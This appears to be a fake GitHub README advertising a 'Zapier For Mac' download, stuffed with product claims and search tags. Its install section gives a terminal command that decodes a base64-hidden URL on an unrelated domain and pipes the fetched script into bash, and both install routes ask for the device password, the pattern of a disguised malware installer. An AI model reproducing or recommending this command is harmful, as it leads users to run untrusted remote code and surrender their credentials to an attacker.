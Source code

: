 # Zapier For Mac — Download For macOS
![Zapier Logo](https://cdn.worldvectorlogo.com/logos/zapier-2.svg) 😊

Zapier For Mac is a powerful automation tool designed to connect over 7,000 apps, streamlining workflows and boosting productivity on macOS. Automate repetitive tasks like data syncing, notifications, and task management without coding. Follow the instructions below to download and install Zapier For Mac effortlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-FF6200?style=for-the-badge&logo=zapier)](https://mrboomzeus519.github.io/gimronus/zapier)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install Zapier For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🔗 **App Integration**: Connect over 7,000 apps, including Slack, Google Sheets, and Trello, for seamless workflows.
- ⚙️ **No-Code Automation**: Create "Zaps" to automate tasks without any coding knowledge.
- 🛠 **Custom Workflows**: Use filters, paths, and AI-powered agents for tailored automation.
- 📬 **Real-Time Notifications**: Set up triggers to send alerts via email, Slack, or SMS instantly.
- 🚀 **Time-Saving Efficiency**: Reduce manual tasks, allowing focus on high-priority work.
- 🌐 **macOS Optimization**: Native macOS app with distraction-free windows and account switching.

## About Zapier For Mac

Zapier For Mac is a leading automation platform that empowers macOS users to connect and automate workflows across thousands of apps, including Gmail, Slack, and Microsoft 365, without requiring coding skills. By creating "Zaps," users can automate repetitive tasks like syncing data, sending notifications, or updating project management tools, making it ideal for professionals, small businesses, and teams. Its native macOS app offers a distraction-free interface, seamless integration with macOS features, and support for Apple Silicon, ensuring a smooth experience on macOS 11.0 Big Sur or later.

The software’s strength lies in its ability to create customized workflows using triggers and actions. For example, a new email in Gmail can trigger a task creation in Trello or a notification in Slack, streamlining your workday. Zapier For Mac supports over 7,000 apps, making it one of the most versatile tools for macOS automation software. Its AI-powered features, such as chatbots and data analysis, further enhance productivity by automating complex tasks like lead qualification or customer support responses.

Designed for ease of use, Zapier For Mac is accessible to both beginners and power users. The free tier allows up to 100 tasks per month, while premium features like conditional workflows and multi-step Zaps unlock advanced automation. Its native macOS app supports keyboard shortcuts, notifications, and multi-account management, blending perfectly with the Apple ecosystem. For those searching for “free automation software macOS,” “Zapier download,” or “macOS productivity tools,” Zapier For Mac is a top-tier solution.

Zapier’s community-driven updates and extensive app integrations ensure it remains a reliable choice for macOS users. Its SEO-optimized design makes it easy to find for those seeking to automate workflows, save time, and boost efficiency. Whether you’re a marketer syncing social media posts, a developer automating GitHub tasks, or a business owner managing customer data, Zapier For Mac delivers a powerful, user-friendly platform to streamline your processes.

## Advantages of Zapier For Mac

- 🔄 **Extensive App Support**: Connects with over 7,000 apps for unmatched flexibility.
- 🖥 **Native macOS Experience**: Optimized for macOS with notifications and shortcuts.
- ⏩ **Time-Saving Automation**: Eliminates repetitive tasks with simple Zap setups.
- 🧠 **AI-Powered Features**: Leverage AI agents for advanced tasks like lead processing.
- 🆓 **Free Tier Available**: Start automating with no cost and up to 100 tasks monthly.
- 🔒 **Secure and Reliable**: Enterprise-grade security for safe data handling.

## 🖼 Preview

![Zap Creation](https://images.ctfassets.net/lzny33ho1g45/6ZzKkGxVivbHn0CgbjlVvT/db5da291b1ec30433d87826331d4837c/zapier-interfaces-guide-03-dashboard.png)  
*Create automated workflows with Zapier’s intuitive Zap editor.*

![App Integrations](https://images.ctfassets.net/lzny33ho1g45/6SbafMQdYTkdc4cQQ87Sns/6ac925de531eec0f1471a2eb74b5b4fe/zapier-canvas-product-screenshot.png)  
*Connect thousands of apps like Slack, Gmail, and Trello effortlessly.*

![AI Agents](https://helpdesk.bitrix24.com/upload/medialibrary/0e7/kki5f4xzwg2kxz48j43kufcmj46unu0o/Zapier%20for%20Tasks.%20Create%20a%20zap.jpeg)  
*Use AI-powered agents to automate complex tasks like data analysis.*

![Dashboard View](https://i.postimg.cc/0yWqH1mQ/zapier-dashboard.png)  
*Manage your Zaps and workflows from a clean, user-friendly dashboard.*

## 🔍 Tags

Zapier, Zapier app, Zapier mac, Zapier for mac, Zapier free, Zapier desktop, _zapier, zapier cost, cost of zapier, pricing zapier, zapier discount, free automation software macOS, Zapier download, macOS productivity tools, app integration mac, Zapier For Mac download, no-code automation macOS, workflow automation software, free task automation mac, macOS app sync, Zapier free mac, AI automation tools, cloud app integration
